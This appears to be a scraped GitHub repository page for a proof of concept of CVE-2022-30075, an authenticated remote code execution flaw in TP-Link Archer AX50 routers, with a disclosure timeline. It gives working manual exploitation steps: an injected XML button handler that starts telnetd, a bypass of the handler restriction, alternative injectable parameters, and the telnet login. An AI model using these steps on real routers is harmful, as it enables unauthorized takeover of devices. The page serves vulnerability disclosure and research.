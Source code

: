 # CVE-2022-30075

Tp-Link Archer AX50 Authenticated RCE (CVE-2022-30075)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/aaronsvk](https://github.com/aaronsvk) |
| Url      | [https://github.com/aaronsvk/CVE-2022-30075](https://github.com/aaronsvk/CVE-2022-30075)                                               |
| Stars    | 200                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2022-30075
Authenticated Remote Code Execution in Tp-Link Routers

### Affected Devices
If your Tp-Link router has backup and restore functionality and firmware is older than june 2022, it is probably vulnerable

### Tested With
Tp-Link Archer AX50, other tplink routers may use different format of backups and exploit needs to be modified

### PoC
Using exploit for starting telnet daemon on the router
![tplink](https://user-images.githubusercontent.com/28111712/172499966-8a5d486f-c79d-4fe2-95ff-de77d211ab54.png)

### Manual Exploitation
1. login to router web interface  
2. go to advanced -> system -> backup settings
3. decrypt and decompress backup file
- if your router uses different format of backup files you can modify exploit code (class BackupParser) or simply use some tool from github:  
https://github.com/stdnoerr/tp_link_credentials_harvester/blob/master/decrypt.py  
https://github.com/ret5et/tplink_backup_decrypt_2022.bin  
...
4. in decrypted xml file you can find something like this:
```xml
<button name="led_switch">
  <action>pressed</action>
  <button>ledswitch</button>
  <handler>/lib/led_switch</handler>
</button>
```
- replace it with these lines
```xml
<button name="exploit">
  <action>pressed</action>
  <button>ledswitch</button>
  <handler>/usr/sbin/telnetd -l /bin/login.sh</handler>
</button>
```
- there is a restriction that blocks modification of parameter `system.button.handler`, but it can be easily bypassed by changing name of parent xml node (e.g. `name="exploit"`)
- code execution can be achieved not only by changing parameter `system.button.handler`, but also using `ddns.service.ip_script`, `firewall.include.path`, `uhttpd.main`, and others... 
5. compress and encrypt modified backup file
6. go to advanced -> system -> restore settings -> upload modified backup file
7. after reboot, push the led button that triggers execution of injected command `/usr/sbin/telnetd -l /bin/login.sh`
8. remotelly login to router: `telnet 192.168.1.1`

### Timeline
15.03.2022 - Identified vulnerability  
15.03.2022 - Contacted Tp-Link support  
16.03.2022 - Recieved response from Tp-Link  
02.05.2022 - Assigned CVE  
27.05.2022 - Tp-Link released firmware with fixed vulnerability  
07.06.2022 - Published technical details  



## Get the content

```
git clone https://github.com/aaronsvk/CVE-2022-30075
cd CVE-2022-30075
```

{% embed url="https://github.com/aaronsvk/CVE-2022-30075" %}

<figure><img src="https://avatars.githubusercontent.com/u/28111712?v=4" alt=""><figcaption><p>aaronsvk</p></figcaption></figure>
